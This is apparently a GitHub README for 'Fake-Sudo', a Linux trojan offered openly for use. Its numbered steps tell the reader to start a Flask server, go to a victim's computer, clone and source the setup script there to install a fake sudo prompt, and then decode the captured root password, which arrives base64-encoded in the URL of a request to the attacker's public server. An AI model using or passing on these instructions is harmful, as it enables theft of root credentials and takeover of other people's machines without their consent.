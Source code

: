 # Fake-Sudo
A linux trojan
## How to use
1. Clone the repo<br>`git clone https://github.com/NarmakTwo/Fake-Sudo.git`<br>`cd Fake-Sudo`
2. Make a server<br>`python3 flask.py`
3. Go to the computer you want to steal the root password from
4. Clone the repo<br>`git clone https://github.com/NarmakTwo/Fake-Sudo.git`<br>`cd Fake-Sudo`
5. Setup the program<br>`chmod a+x setup.sh`<br>`source setup.sh`
6. Clear the screen<br>`clear`
7. Enter the public URL for the server you made (NOT 127.0.0.1)<br>`Site (include https:// or http://) <<< [your url]`
8. Once the server log says something, copy the end of the url and decode it<br>`echo [end of url] | base64 -d`, That's the root password!
9. That's it!
